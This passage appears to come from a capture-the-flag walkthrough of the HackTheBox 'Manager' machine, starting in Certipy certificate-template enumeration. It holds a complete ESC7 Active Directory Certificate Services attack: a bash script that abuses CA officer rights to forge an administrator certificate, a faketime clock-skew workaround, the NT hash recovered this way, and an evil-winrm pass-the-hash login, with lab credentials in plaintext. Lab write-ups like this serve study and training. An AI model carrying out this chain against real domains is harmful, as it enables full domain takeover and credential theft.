                                          MANAGER.HTB\Enterprise Admins
  19
    Template Name                       : Machine
    Display Name                        : Computer
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDnsAsCn
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Server Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Computers
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  20
    Template Name                       : MachineEnrollmentAgent
    Display Name                        : Enrollment Agent (Computer)
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDnsAsCn
                                          SubjectAltRequireDns
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  21
    Template Name                       : EnrollmentAgentOffline
    Display Name                        : Exchange Enrollment Agent (Offline request)
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  22
    Template Name                       : EnrollmentAgent
    Display Name                        : Enrollment Agent
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 2 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  23
    Template Name                       : CTLSigning
    Display Name                        : Trust List Signing
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Microsoft Trust List Signing
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  24
    Template Name                       : CodeSigning
    Display Name                        : Code Signing
    Enabled                             : False
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Code Signing
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  25
    Template Name                       : EFSRecovery
    Display Name                        : EFS Recovery Agent
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : File Recovery
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  26
    Template Name                       : Administrator
    Display Name                        : Administrator
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Microsoft Trust List Signing
                                          Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  27
    Template Name                       : EFS
    Display Name                        : Basic EFS
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Users
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  28
    Template Name                       : SmartcardLogon
    Display Name                        : Smartcard Logon
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : None
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
                                          Smart Card Logon
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  29
    Template Name                       : ClientAuth
    Display Name                        : Authenticated Session
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Users
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  30
    Template Name                       : SmartcardUser
    Display Name                        : Smartcard User
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Secure Email
                                          Client Authentication
                                          Smart Card Logon
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  31
    Template Name                       : UserSignature
    Display Name                        : User Signature Only
    Enabled                             : False
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Users
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
  32
    Template Name                       : User
    Display Name                        : User
    Certificate Authorities             : manager-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectRequireEmail
                                          SubjectAltRequireEmail
                                          SubjectAltRequireUpn
    Enrollment Flag                     : AutoEnrollment
                                          PublishToDs
                                          IncludeSymmetricAlgorithms
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Encrypting File System
                                          Secure Email
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Domain Users
                                          MANAGER.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : MANAGER.HTB\Enterprise Admins
        Write Owner Principals          : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Dacl Principals           : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        Write Property Principals       : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
```

```bash
certipy find  -stdout  -target manager.htb -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable
```

```bash
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates
```

Raven is able en enroll on CA manager-DC01-CA.

Based on ths CA, “CN=SubCA,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=manager,DC=htb” 

This SubCA template would give high privileges :

```bash
    Permissions
      Enrollment Permissions
        Enrollment Rights               : MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
```

As pointed by adPEAS, there could be something wrong with SubCA (number 15) :

```bash
    Certificate Name Flag               : EnrolleeSuppliesSubject
```

Here is a good reference explainig it : [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin)

[https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2)

```bash
Domain="MANAGER"
DomainFqdn="manager.htb"
ConnUsername="raven"
ConnUPassword="R4v3nBe5tD3veloP3r\!123"
RootCA='manager-DC01-CA'
Officer="raven"
TemplateName='SubCA'

# clean previously saved keys
rm *.key

# You can grant yourself the Manage Certificates access right by adding your user as a new officer.
certipy ca -username "${ConnUsername}@${DomainFqdn}" -password $ConnUPassword -ca $RootCA -add-officer $Officer
# The SubCA template can be enabled on the CA with the -enable-template parameter. By default, the SubCA template is enabled.
certipy ca -username "${ConnUsername}@${DomainFqdn}" -password $ConnUPassword -ca $RootCA -enable-template $TemplateName
# If we have fulfilled the prerequisites for this attack, we can start by requesting a certificate based on the SubCA template.
# This request will be denied, but we will save the private key and note down the request ID
certipy req -username "${ConnUsername}@${DomainFqdn}" -password $ConnUPassword -ca $RootCA -target $DomainFqdn -template $TemplateName -upn administrator@$DomainFqdn
# RequestId is the Key file number generated
KeyRequestId=$(ls *.key | cut -f 1 -d '.')
# With our Manage CA and Manage Certificates, we can then issue the failed certificate request with the ca command and the -issue-request <request ID> parameter
certipy ca -username "${ConnUsername}@${DomainFqdn}" -password $ConnUPassword -ca $RootCA -issue-request $KeyRequestId
# And finally, we can retrieve the issued certificate with the req command and the -retrieve <request ID> parameter.
certipy req -username "${ConnUsername}@${DomainFqdn}" -password $ConnUPassword -ca $RootCA -target $DomainFqdn -retrieve $KeyRequestId
```

```bash
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'manager-DC01-CA'

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 16
Would you like to save the private key? (y/N) y
[*] Saved private key to 16.key
[-] Failed to request certificate

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate

Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 16
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '16.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

We now have a certificate and the associated private key to authenticate as administrator :

```bash
certipy auth -pfx ./administrator.pfx
```

But we get an error :

```bash
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Thi indicate a time difference between our host and the target host.

If on a VM, adjust the time from the server :

```bash
apt update
apt install rdate
rdate -n manager.htb
```

In exegol, we are in a docker container and time is gotten from host. In this case, we can use faketime to fake the container time, from the server time.

nmap is used to retrieve date and time from kerberos service (port 88).

faketime will then start a new zsh shell, that will immediately execute the certify auth command

```bash
FakeTimeHtb=$( nmap -sV manager.htb -p 88 -Pn | grep -oE '\(server time: (.*)\)' | cut -d ' ' -f3,4 | tr -d ')' )
faketime $FakeTimeHtb zsh -c "certipy auth -pfx ./administrator.pfx"
```

```bash
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

we got an administrator hash !! Now we juste have to login using this hash :

```bash
evil-winrm -u administrator -H ae5064c2f62317332c88629e025924ef -i manager.htb
```

```bash
Evil-WinRM shell v3.5

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
```

### Lateral Movement

### Privilege Escalation